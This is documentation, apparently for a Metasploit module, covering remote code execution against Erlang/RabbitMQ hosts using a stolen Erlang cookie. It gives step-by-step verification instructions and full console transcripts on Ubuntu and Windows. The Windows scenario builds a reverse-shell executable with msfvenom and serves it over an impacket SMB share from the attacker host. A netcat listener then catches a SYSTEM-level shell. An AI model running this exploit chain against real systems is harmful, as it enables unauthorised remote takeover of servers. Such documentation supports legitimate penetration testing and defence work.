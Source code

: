 ## Vulnerable Application

  The [Erlang Port Mapper Daemon](https://www.erlang.org/) is used to coordinate distributed erlang
  instances. Should an attacker gain access to this cookie code execution is trivial. Normally this
  cookie can be found in the home directory as ".erlang.cookie", however it varies system to system
  as well as it's configuration. As an example on a Windows 10 instance it can be found under the
  users home directory: e.g "C:\Users\<USER>\.erlang.cookie". Code execution is achieved via the
  "os:cmd('cmd')." command

## Verification Steps
  
  1. Install the Erlang Port Mapper Daemon
  2. Install RabbitMQ
  3. Start `msfconsole`
  4. Do `use exploit/unix/erlang_cookie_rce`
  5. Do `set RHOST <ip>`
  6. Do `set COOKIE <cookie>`
  7. Do set appropriate payload (Unix=cmd/unix/reverse, Windows=cmd/windows/generic)
  8. Do `set LHOST <host>`
  9. `exploit` and verify shell is opened (varies per OS)

## Scenarios

### Ubuntu 16.04.5 LTS

```
msf exploit(multi/erlang_cookie_rce) > options 

Module options (exploit/multi/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  EXAMPLE               yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  W.X.Y.Z          yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(multi/erlang_cookie_rce) > exploit

[*] Started reverse TCP double handler on W.X.Y.Z:4444 
[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XinIWxzXWDO5x9EM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XinIWxzXWDO5x9EM\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (W.X.Y.Z:4444 -> A.B.C.D:46410) at 2018-12-09 14:45:47 -0600

id
uid=122(rabbitmq) gid=130(rabbitmq) groups=130(rabbitmq)
```

### Windows 10 (Build 17134)

```
msf exploit(multi/erlang_cookie_rce) > options 

Module options (exploit/multi/erlang_cookie_rce):

   Name    Current Setting       Required  Description
   ----    ---------------       --------  -----------
   COOKIE  MOLKLGXHWQLTGUREBDKI  yes       Erlang cookie to login with
   RHOST   A.B.C.D               yes       The target address
   RPORT   25672                 yes       The target port (TCP)


Payload options (cmd/windows/generic):

   Name  Current Setting              Required  Description
   ----  ---------------              --------  -----------
   CMD   \\W.X.Y.Z\BOB\t.exe  yes       The command string to execute


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target


msf exploit(multi/erlang_cookie_rce) > exploit

[*] A.B.C.D:25672 - Receiving server challenge
[*] A.B.C.D:25672 - Sending challenge reply
[+] A.B.C.D:25672 - Authentication successful, sending payload
[*] Exploit completed, but no session was created.

--- Impacket SMB Server ---
root@kali:/tmp# msfvenom -p windows/x64/shell_reverse_tcp LHOST=W.X.Y.Z LPORT=3 -f exe -o t.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                 
[-] No arch selected, selecting arch: x64 from the payload                                             
No encoder or badchars specified, outputting raw payload                                               
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: t.exe
root@kali:/tmp# impacket-smbserver BOB .
Impacket v0.9.17 - Copyright 2002-2018 Core Security Technologies                                      

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0                                 
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0                                 
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (A.B.C.D,50349)
[*] AUTHENTICATE_MESSAGE (\,DESKTOP-85258BS)
[*] User \DESKTOP-85258BS authenticated successfully                                                   
[*] :::00::4141414141414141

--- Handler ---

root@kali:~# nc -lvp 3
Listening on [0.0.0.0] (family 0, port 3)
Connection from A.B.C.D 50350 received!
Microsoft Windows [Version 10.0.17134.407]
(c) 2018 Microsoft Corporation. All rights reserved.                                                   

C:\Users\667563~1\AppData\Roaming\RabbitMQ>whoami
whoami
nt authority\system

C:\Users\667563~1\AppData\Roaming\RabbitMQ>
```
